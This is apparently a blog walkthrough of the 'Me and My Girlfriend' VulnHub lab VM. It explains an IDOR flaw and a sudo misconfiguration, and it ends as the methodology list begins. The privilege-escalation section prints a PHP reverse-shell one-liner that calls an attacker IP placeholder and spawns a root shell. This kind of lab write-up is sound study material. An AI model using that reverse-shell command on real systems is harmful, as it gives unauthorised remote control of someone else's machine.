 ```yaml
---
layout: post
title: "Me and My Girlfriend Walkthrough"
date: 2019-12-21
---
```


Me and My Girlfriend is a beginner level VM created by TW1C3 on vulnhub. It is truly beginner friendly but fun at the same time. One gets to practice enumeration, web application vulnerabilities and simple privilege escalation. I think this is a good beggining point for some of the people studying for OSCP.

**Vulnerable System**: Me and My Girlfriend
===========================================

**Operating System**: Ubuntu 14.04

**Kernel**: 4.4.0

**Vulnerability Exploited**: Insecure Direct Object Reference (IDOR)

**Exploit Used**: N/A

**Proof of Concept Code**: N/A

**Vulnerability Explained**: In the web application, there is no access control
implemented between different users’ accounts. Therefore other users’ account
pages can be accessed simply by changing ID parameter in the URL.

**Vulnerability fix**: Implement sufficient access control. The user has to be
authorized to access request information. Use something less obvious for the
reference such as randomly generated string instead of incrementing integer.

**Severity**: **Medium**

**Privilege Escalation Vulnerability**: Excessive sudo privileges

**Exploit Used**: N/A

**Proof of Concept Code**: /usr/bin/php -r '\$sock=fsockopen("ip address",
port);exec("/bin/sh -i \<&3 \>&3 2\>\&3");'

**Privilege Escalation Vulnerability Explained:** Regular user had sudo
privileges to execute php commands. With the help of php, operating system
commands can be executed or in this case a reverse shell with root privileges
was spawned.

**Vulnerability fix**: Restrict what regular users can do using sudo according
to the principal of the least privilege.

**Severity**: **High**

Methodology
-----------

-   Host Discovery (netdiscover)

-   Port Scanning (nmap)
